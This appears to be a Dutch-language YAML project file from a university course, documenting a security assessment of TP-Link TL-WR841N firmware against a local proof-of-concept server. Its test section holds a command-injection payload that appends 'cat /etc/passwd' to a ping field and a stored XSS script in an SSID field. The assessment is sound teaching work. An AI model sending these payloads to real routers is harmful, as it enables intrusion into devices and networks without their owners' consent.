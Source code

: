 project: "TP-Link TL-WR841N Firmware Security Assessment"

description: >
  Dit project documenteert een security assessment van de TP-Link TL-WR841N (v8) firmware.
  De analyse is uitgevoerd in het kader van de Novi University – Software Security leerlijn.

overview:
  details: >
    Tijdens dit onderzoek zijn firmwarebestanden gedownload, uitgepakt en geanalyseerd
    met zowel statische als dynamische methoden.
    Omdat de originele httpd binary beperkt draaide in emulatie, is een eigen
    Python Proof-of-Concept server (upload_server.py) opgezet om kwetsbaarheden te demonstreren.
  endpoints:
    - path: "/userRpm/LoginRpm.htm"
      description: "Authenticatie"
    - path: "/userRpm/SoftwareUpgradeRpm.htm"
      description: "Firmware upload"
    - path: "/userRpm/BakNRestoreRpm.htm"
      description: "Config backup/restore"
    - path: "/userRpm/DiagnosticRpm.htm"
      description: "Ping/Traceroute"
    - path: "/userRpm/WlanAdvRpm.htm"
      description: "SSID configuratie"

preparation:
  firmware_download_and_unpack: |
    cd ~/iot/tplink_tlwr841n
    wget https://static.tp-link.com/TL-WR841N(UN)_V8_170210.zip
    unzip TL-WR841N(UN)_V8_170210.zip
    cd TL-WR841N(UN)_V8_170210
    binwalk -e --run-as=root wr841nv8_en_3_16_9_up_boot\(170210\).bin
  check_rootfs: |
    tree -L 2 squashfs-root-fixed

poc_server:
  description: >
    De aangepaste PoC-server (upload_server.py) simuleert meerdere kwetsbare endpoints:
    - Config Restore Upload
    - Diagnostic Command Injection
    - WLAN SSID Stored XSS
  start: |
    python3 upload_server.py 8088
  expected_output: "[i] Listening on 0.0.0.0:8088"

tests:
  - name: "Config Restore (BakNRestoreRpm)"
    steps:
      - description: "Genereer een fake backup"
        command: "dd if=/dev/urandom of=backup.bin bs=1K count=1"
      - description: "Upload via PoC-server"
        command: |
          curl -i -X POST -F "config=@backup.bin" \
            http://127.0.0.1:8088/web/userRpm/BakNRestoreRpm.htm

  - name: "DiagnosticRpm (Command Injection)"
    vulnerable_parameter: "ping_addr"
    command: |
      curl -i -X POST -d "ping_addr=8.8.8.8; cat /etc/passwd" \
        http://127.0.0.1:8088/web/userRpm/DiagnosticRpm.htm

  - name: "WLAN SSID (Stored XSS)"
    steps:
      - description: "Injecteer payload"
        command: |
          curl -i -X POST -d "ssid=<script>alert('XSS')</script>" \
            http://127.0.0.1:8088/web/userRpm/WlanAdvRpm.htm
      - description: "Controleer in browser"
        note: "De SSID komt terug inclusief payload."

disclaimer: >
  Dit project is uitsluitend bedoeld voor educatieve doeleinden binnen de
  NOVI University Software Security leerlijn.
  Voer deze stappen nooit uit op productieapparatuur of netwerken zonder expliciete toestemming.

references:
    url: "https://static.tp-link.com/TL-WR841N(UN)_V8_170210.zip"
